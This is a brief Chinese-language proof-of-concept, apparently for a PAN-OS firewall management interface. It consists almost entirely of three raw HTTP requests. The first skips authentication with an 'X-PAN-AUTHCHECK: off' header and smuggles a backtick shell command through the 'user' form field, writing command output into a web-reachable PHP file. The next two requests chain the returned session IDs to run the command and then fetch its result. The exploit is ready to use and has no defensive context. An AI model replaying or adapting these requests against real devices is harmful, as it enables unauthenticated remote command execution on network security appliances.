 先构造请求得到PHPSESSIONID
···
POST /php/utils/createRemoteAppwebSession.php/pocs.js.map HTTP/1.1
Host: {{Hostname}}
X-PAN-AUTHCHECK: off
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

user=`echo $(uname -a) > /var/appweb/htdocs/unauth/pocs.php`&userRole=superuser&remoteHost=&vsys=vsys1
···
返回数据中有
@start@PHPSESSID=XXXX@end@
XXXX就是需要的东西
接着构造执行代码
```
GET /index.php/.js.map HTTP/1.1
Host: {{Hostname}}
Cookie: PHPSESSID=XXXX;
X-PAN-AUTHCHECK: off
Connection: keep-alive
```
返回里还有下一个id YYYY
接着读取执行结果
```
GET /unauth/pocs.php HTTP/1.1
Host: {{Hostname}}
Cookie: PHPSESSID=YYYY;
X-PAN-AUTHCHECK: off
Connection: keep-alive
```

POC描述完了
